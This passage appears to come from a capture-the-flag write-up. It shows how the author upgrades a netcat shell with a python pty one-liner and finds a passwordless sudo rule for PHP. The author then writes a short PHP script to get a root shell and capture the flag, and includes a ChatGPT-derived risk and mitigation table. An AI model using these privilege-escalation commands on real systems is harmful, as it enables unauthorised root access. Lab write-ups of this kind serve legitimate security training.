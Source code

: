 
After establishing our reverse shell with netcat from metasploit, we need to cement our foothold. 

Upgrade our shell to one that supports TTY

```shell-session
python -c 'import pty; pty.spawn("/bin/bash")'
```

This command fails as the system doesn't have python2 so we execute the command below

```shell-session
which python3
```

we have Python3 avaliable and from there our netcat session has escalated

```shell-session
python3 -c 'import pty; pty.spawn("/bin/bash")'
``` 

![../2. Recon/Images/Pasted image 20241007215316.png](<../2. Recon/Images/Pasted image 20241007215316.png>)

we can now run commands like sudo -l to determine permissions
![../2. Recon/Images/Pasted image 20241007220720.png](<../2. Recon/Images/Pasted image 20241007220720.png>)

Running these permissions through ChatGPT we can get a more human readable threat assessment.

| **Item**                       | **Details**                                                        |
|---------------------------------|--------------------------------------------------------------------|
| **Command**                     | `sudo /usr/bin/php`                                                |
| **User**                        | `www-data`                                                         |
| **Privileges**                  | Can run **PHP** as **any user** without needing a password (`NOPASSWD`) |

### Security Risks

| **Risk**                 | **Description**                                                                                                        |
| ------------------------ | ---------------------------------------------------------------------------------------------------------------------- |
| **Full Root Access**     | PHP can execute system commands (e.g., `system()`, `exec()`), allowing full root control.                              |
| **Privilege Escalation** | Attackers can: <ul><li>Read/modify sensitive files (e.g., `/etc/shadow`).</li><li>Open a root shell via PHP.</li></ul> |
| **Ease of Exploitation** | No password is required to run PHP scripts as root, simplifying exploitation.                                          |
| **Web Exploits**         | If `www-data` is tied to a web server, vulnerable web apps can be used to escalate privileges to root.                 |

### Exploit Example

| **PHP Script**                 | **Effect**                                  |
|--------------------------------|---------------------------------------------|
| ```php <?php system("/bin/bash"); ?> ``` | Spawns a **root shell** when run via `sudo /usr/bin/php /path/to/script.php`. |

### Mitigation

| **Recommendation**              | **Action**                                                         |
|---------------------------------|--------------------------------------------------------------------|
| **Remove NOPASSWD**             | Require a password for `sudo` or restrict specific PHP commands.   |
| **Monitor www-data**            | Track activity, especially sudo actions.                           |
| **Harden Web Applications**     | Ensure no remote code execution vulnerabilities in web apps.       |

From this info we can quickly execute the simple 2 line script below

```shell script
echo '<?php system("/bin/bash"); ?>' > /tmp/root_shell.php
sudo /usr/bin/php /tmp/root_shell.php
```

![../2. Recon/Images/Pasted image 20241007221231.png](<../2. Recon/Images/Pasted image 20241007221231.png>)

We have now established ourselves as the root user and capture the final flag.

![../2. Recon/Images/Pasted image 20241007222806.png](<../2. Recon/Images/Pasted image 20241007222806.png>)